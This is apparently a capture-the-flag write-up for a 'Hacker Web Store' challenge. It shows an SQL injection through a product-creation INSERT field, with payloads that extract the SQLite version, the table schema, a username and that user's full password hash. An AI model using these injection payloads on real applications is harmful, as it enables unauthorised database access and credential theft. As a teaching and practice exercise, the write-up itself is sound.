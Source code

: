 # Hacker Web Store
Welcome to the hacker web store! Feel free to look around at our wonderful products, or create your own to sell.

This challenge may require a local password list, which we have provided below. Reminder, bruteforcing logins is not necessary and against the rules.

# Flag

# Solution
Vulnerable to SQL Injection when executing INSERT statements to create new products. 

Assuming SQL statement is similar to this:

```sql
INSERT INTO products (name,price,desc)
VALUES ('test',2,'test');
```

Injecting: `name=test',10,(select+sqlite_version()))--+-&price=4&desc=hi`
```
3.31.1
```

Injecting: `name=test',10,(select+sql+from+sqlite_master))--+-&price=4&desc=hi`
```
CREATE TABLE users ( id INTEGER NOT NULL, name VARCHAR(100), password VARCHAR(100) NOT NULL, PRIMARY KEY (id) )
```

Injecting: `name=test',10,(select+name+from+users))--+-&price=4&desc=hi`
```
Joram
```

Injecting: `name=test',10,(select+password+from+users+where+name='Joram'))--+-&price=4&desc=hi`
```
pbkdf2:sha256:600000$m28HtZYwJYMjkgJ5$2d481c9f3fe597590e4c4192f762288bf317e834030ae1e069059015fb336c34
```

